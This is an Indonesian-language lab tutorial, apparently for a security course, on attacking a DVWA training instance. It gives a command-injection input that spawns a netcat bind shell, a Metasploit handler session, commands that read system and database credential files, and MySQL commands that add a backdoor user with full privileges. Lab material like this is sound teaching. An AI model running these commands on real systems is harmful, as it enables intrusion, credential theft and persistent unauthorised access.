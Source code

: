 ## LESSON 4

Inti dari Lesson 4 adalah implementasi Metasploit command execution dengan menggunakan NetCat untuk memanipulasi database yang ada di dalam database DVWA. 

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Membuka koneksi menggunakan NetCat**
1. Akses website dari DVWA dengan cara

```
http://192.168.1.6/dvwa/login.php/;
```

**NOTE**
* Username dan Password default adalah **admin**/**password**

2. Masuk ke dalam **Command Execution** dan masukan command lalu klik **Submit**

```
192.168.1.6;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
```

Hasil yang akan didapat adalah:
![SS 1](LESSON_4/1.png)

**B. Menggunakan Metasploit untuk membuka koneksi ke NetCat**
1. Menjalankan Metasploit

**Application** -> **Backtrack** -> **Application** -> **Exploitation Tools** -> **Network Exploitation Tools** -> **Metasploit Framework** -> **msfconsole**

Hasil yang akan didapat adalah:
![SS 2](LESSON_4/2.png)

2. Menjalankan koneksi ke NetCat

```
use multi/handler
set PAYLOAD linux/x86/shell/bind_tcp
show options
set RHOST 192.168.1.6
exploit
```

Hasil yang akan didapat adalah:
![SS 3](LESSON_4/3.png)

3. Eksplorasi User Credentials

```
whoami
grep apache /etc/passwd
grep apache /etc/group
```

Hasil yang akan didapat adalah:
![SS 4](LESSON_4/4.png)

4. Eksplorasi Proses dan Directory Credentials

```
ps -eaf | grep http
pwd
ls -ld /var/www/html
ls -ld /var/www/html/dvwa
ls -l /var/www/html/dvwa
```

Hasil yang akan didapat adalah:
![SS 5](LESSON_4/5.png)

5. Eksplorasi Database Credentials

```
ls -l /var/www/html/dvwa/config
cat /var/www/html/dvwa/config/config.inc.php
```

Hasil yang akan didapat adalah:
![SS 6](LESSON_4/6.png)

**C. Eksplorasi MySQL**
1. Memperlihatkan Informasi DVWA Database

```
echo "show databases;" | mysql -uroot -psanisani
echo "use dvwa; show tables;" | mysql -uroot -psanisani
echo "use dvwa; desc users;" | mysql -uroot -psanisani
echo "select * from dvwa.users;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 7](LESSON_4/7.png)

2. Membuat User Baru di Tabel dvwa.users

```
echo "insert into dvwa.users values ('6','Sani','Sunny','sani9050',MD5('sanisani'),'NA');" | mysql -uroot -psanisani
echo "select * from dvwa.users;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 8](LESSON_4/8.png)

3. Menunjukkan Informasi pada Tabel MySQL

```
echo "show databases;" | mysql -uroot -psanisani
echo "use mysql; show tables;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 9](LESSON_4/9.png)

4. Membuat User Baru MySQL

```
echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'sani_hacker'@'%' IDENTIFIED BY 'sanisani' WITH GRANT OPTION;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 10](LESSON_4/10.png)

```
echo "select * from mysql.user;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 11](LESSON_4/11.png)

### Kesimpulan Lesson 4

Menggunakan Metaeksploit untuk menambah user yang tidak terautentikasi sangat berbahaya karena dapat melakukan pencurian data.

